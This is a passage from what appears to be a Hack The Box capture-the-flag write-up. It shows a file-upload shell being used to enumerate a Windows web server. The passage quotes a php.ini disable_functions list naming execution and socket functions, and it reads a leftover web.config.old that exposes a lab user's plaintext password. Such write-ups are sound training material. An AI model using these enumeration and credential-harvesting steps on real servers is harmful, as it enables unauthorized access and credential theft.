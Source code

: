```

hackback> upload site site.txt
hackback> dir
Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => site.txt
    [4] => webadmin.php
)
1
hackback> type site.txt
twitter
paypal
facebook
hackthebox

```

#### Enumeration

Armed with this shell, I can more easily enumerate the box. I’ll check out the `php.ini` file at `..\..\..\..\..\Progra~1\php\v7.2\php.ini`. There I’ll find this line:

```

disable_functions = phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,fsockopen,socket_create,socket_connect,eval

```

That explains why I can’t get a webshell to run, as all of the execution commands are restricted, as well as the socket ones.

I’ll also look up a directory from the current, and in the root of the admin page, see `web.config.old`, which has creds for the user simple in it:

```

> dir ..
Array
(
    [0] => .
    [1] => ..
    [2] => 2bb6916122f1da34dcd916421e531578
    [3] => App_Data
    [4] => aspnet_client
    [5] => css
    [6] => img
    [7] => index.php
    [8] => js
    [9] => logs
    [10] => web.config
    [11] => web.config.old
)
1

> type ../web.config.old
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <authentication mode="Windows">
        <identity impersonate="true"                 
            userName="simple" 
            password="ZonoProprioZomaro:-("/>
```